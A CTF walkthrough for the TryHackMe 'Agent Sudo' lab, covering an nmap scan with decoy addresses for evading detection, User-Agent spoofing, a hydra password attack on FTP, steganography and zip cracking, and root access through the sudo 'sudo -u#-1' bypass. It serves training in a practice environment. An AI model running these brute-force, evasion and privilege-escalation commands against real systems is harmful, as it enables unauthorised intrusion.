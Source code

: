 ![intro](https://github.com/user-attachments/assets/f0320ee6-9e24-44cf-bf4d-98c32338a829)

# tryhackme-Agent-Sudo
This is a walkthrough for the tryhackme CTF Agent Sudo. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals three open ports:

![nmap](https://github.com/user-attachments/assets/eccc0012-bd2f-408e-99c1-5a3f32620794)

First, let's investigate the websever on port 80.
We are greeted with a message from Agent R:

![agent R](https://github.com/user-attachments/assets/6277fcae-9082-4506-a524-d4d8036d2b0c)

The User-Agent is a crucial part of the HTTP headers sent with every request. It helps servers identify the application, operating system, vendor, and version of the requesting user agent. In this case we can assume that agent R is one of the code names. Let's try spoofing as user-agent R on this url. 
```bash
curl -A "R" -L $ip
```
Command explanation:
-A let's use specify the user agent "R"
-L will follow redirects

We get a different response:

![agent R response](https://github.com/user-attachments/assets/a9312aa2-68ff-464e-a19b-d852219dc0e5)

This reponse gives us the hint that since there are 25 user-agents, and 26 letters in the alphabet, and agent R is one of them, that the user agent is most likely one of the other letters. Let's try the same command replacing "R" with "A", "B" and so on.

I wrote a bash script to use the cmd curl -A 'x' $ip -L that will loop through capital letters A to Z, get an MD5 hash of the curl response, then checks if the current response is different from the previous one, if the response is different it prints the User-Agent, response hash, and full curl output. If the response is the same as the previous one, it skips to the next letter without ouput.

![user-agent sh](https://github.com/user-attachments/assets/d0b94486-efcc-4996-920b-def30dc28daa)

```
bash
#!/bin/bash

# Function to get MD5 hash of curl response
get_response_hash() {
        curl -s -A "$1" $ip -L | md5sum | awk '{print $1}'
}

# Loop through capital letters A to Z
for letter in {A..Z}; do
        current_response=$(get_response_hash "$letter")

        if [ "$first_run" = true ] || [ "$current_response" != "$previous_response" ]; then
                echo "User-Agent: $letter"
                echo "Response hash: $current_response"
                curl -A "$letter" $ip -L
                echo -e "\n----------\n"


                previous_response=$current_response
                first_run=false
        fi
done
```

![user-agent-response](https://github.com/user-attachments/assets/be8d6a1b-3929-4857-9a54-b4efef2b9955)


This script returns a few results, one of which shows use that the correct user-agent is C. It also alerts us to the fact that agent C has a weak password, so we should attempt a dictionary attack with hydra and the wordlist rockyou.txt. Looking back our nmap scan, the password will most likely be for ftp or ssh. I attempted anonymous login to ftp: ftp $ip, but it prompted for a password, so let's try the password attack on the ftp server:
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt $ip ftp
```
After about a minute, I hydra revealed the ftp password. Let's go ahead and log into the ftp server as chris:

![ftp](https://github.com/user-attachments/assets/680a6191-3213-4c78-8a7a-516c51a7aa33)

We're in! Let's use the get command to get this image files onto our machine:
```bash
get <file name>
```
First, let's cat To_agentJ.txt:


![To_agentJ txt](https://github.com/user-attachments/assets/ae98bb71-b5fa-4334-8ece-d8915c72bcaf)
Ok, I tried exiftool and strings on cute-alien.jpg but didn't yield anything. Then I tried steghide, but it prompts for a password, so let's attack it with stegcracker:

![stegcracker](https://github.com/user-attachments/assets/e9a29a66-dd5d-450b-8d44-23411b21025f)

While stegcracker is running, let's investigate cutie.png.
First, I tried exiftool and strings on it, and strings revealed an embedded txt file:
```bash
strings cutie.png
```
![strings cutie](https://github.com/user-attachments/assets/aacac05e-b801-4149-b036-6e2a295ea515)

Now, let's try binwalk on it:

![binwalk](https://github.com/user-attachments/assets/49a337c8-972f-4ebf-94c8-e629a1379699)

binwalk extracted a new directory _cutie.png.extracted.
In this directory we see the encryped 8702.zip file. Another thing to take note of, is that To_agentJ.txt is currently empty, because it's contents haven't been extracted. We will need to crack the zip file by first using zip2john, then john to crack the resulting hash:


![zip2john](https://github.com/user-attachments/assets/81d435d3-1d32-4a9e-99c7-5ecdb27341cc)
Now that we have the password, we'll use the tool 7z to extract the contents:
```bash
7z e 8702.zip
```

Now, let's read To_agentJ.txt. It reveals a message from Agent R. This string appears to be base64 encoded, so we'll need to decode it:

![base64 -d](https://github.com/user-attachments/assets/31c31d75-89da-40f2-95c7-8f2aca19ed5b)

Now, let's check back on the jpg file that's now been cracked using stegcracker:

![stegcracker_result](https://github.com/user-attachments/assets/88edafc7-9d8b-4974-83a5-e62ea715a570)
It reveals a message from chris and contains the username and password.
Great! Let's try to ssh onto the target with these credentials:
```bash
ssh james@$ip
```

We are now logged in via ssh as james, and the user flag is in his home directory.

There is also the question about the photo- Alien_autospy.jpg.
Let's tranfer this from the target machine to our attack box. Run this command from the target machine, from the jame's home directory:
```bash
python3 -m http.server
```
And wget from the attack box to get it, replace $ip with actual target IP:
```bash
wget http://$ip:8000/Alien_autospy.jpg
```
Now that we have the jpg, go to https://images.google.com/, and upload the jpg. 
Search the results and, as per the hint, keep an eye out for the foxnews site to get the answer.

# Privilege Escalation
After running sudo -l to check jame's privileges, we see james can run:
(ALL, !root) /bin/bash
This means james cannot run /bin/bash as root, but ALL implies that he can run /bin/bash as any user. In a case like this, it's a good idea to google it, especially when the question is asking for the cve #.
I clicked the result that contains sudo 1.8.27 - Security Bypass. I pasted in this cve and it is correct!
I then ran sudo -V to check the sudo version:


![sudo -V](https://github.com/user-attachments/assets/8593f750-0ada-4c3b-9641-d1185ad204bd)

This sudo version is in the vulnerable range and fits the description like a glove!
I ran the exploit:
```bash
sudo -u#-1 /bin/bash
```
James has now escalted to root!
Now, just cat root.txt to answer the last two questions.
I hope you enjoyed this room and learned a lot!



